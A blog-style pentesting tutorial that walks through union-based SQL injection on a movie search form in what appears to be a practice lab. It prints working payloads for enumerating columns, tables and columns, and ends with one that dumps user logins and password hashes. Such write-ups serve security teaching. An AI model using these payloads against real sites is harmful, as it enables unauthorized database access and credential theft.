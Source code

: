```yaml
---
layout: post
title: SQL Injection (Search\GET)
categories:
  - Web-Pentesting
---
```


<br>A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.
<br>Here we can search for the movies

![50](https://teckk2.github.io/assets/images/Web%20Pentest/A1/50.png)
![51](https://teckk2.github.io/assets/images/Web%20Pentest/A1/51.png)
<br>Let’s check for slqi with single quote (‘)
![52](https://teckk2.github.io/assets/images/Web%20Pentest/A1/52.png)
![53](https://teckk2.github.io/assets/images/Web%20Pentest/A1/53.png)
<br>And we got the error now let’s proceed further.
![54](https://teckk2.github.io/assets/images/Web%20Pentest/A1/54.png)
<br>With double quotes and space in between (‘ ‘)
![55](https://teckk2.github.io/assets/images/Web%20Pentest/A1/55.png)
<br>All the movie result is now showing without searching for any specific movie from the database.
<br>Now using order by find the exact no. of columns in the database.
<br>For that we will put (1' order by 1-- -) after title= and increase the numbers of columns until we get any error.
![56](https://teckk2.github.io/assets/images/Web%20Pentest/A1/56.png)
<br>title=1' order by 1-- -
<br>title=1' order by 2-- -
<br>title=1' order by 3-- -
<br>title=1' order by 4-- -
<br>title=1' order by 5-- -
<br>title=1' order by 6-- -
<br>title=1' order by 7-- -
![57](https://teckk2.github.io/assets/images/Web%20Pentest/A1/57.png)
<br>At (8) we got the error which means there is 7 columns in the database, now move to the next step
<br>**Which is enumerating the database using (union select)**
![58](https://teckk2.github.io/assets/images/Web%20Pentest/A1/58.png)
<br>At columns we can print our result on are 2,3,5,4 respectively.
<br>Let’s choose column 2
![59](https://teckk2.github.io/assets/images/Web%20Pentest/A1/59.png)
![60](https://teckk2.github.io/assets/images/Web%20Pentest/A1/60.png)
<br><font color="Black">title=1' union select 1,database(),3,4,5,6,7-- -</font>
<br>Now extract the table names from the database.
![61](https://teckk2.github.io/assets/images/Web%20Pentest/A1/61.png)
<br><font color="Black">title=1' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
![62](https://teckk2.github.io/assets/images/Web%20Pentest/A1/62.png)
<br><font color="Black">title=1' union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
<br>now let’s check the users table
![63](https://teckk2.github.io/assets/images/Web%20Pentest/A1/63.png)
<br><font color="Black">title=1' union select 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_name="users"-- -</font>
![64](https://teckk2.github.io/assets/images/Web%20Pentest/A1/64.png)
<br><font color="Black">title=1' union select 1,group_concat(login,0x3a,password),3,4,5,6,7 from users-- -</font>
<br>As you can see we successfully dump the username and password hash from the database.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
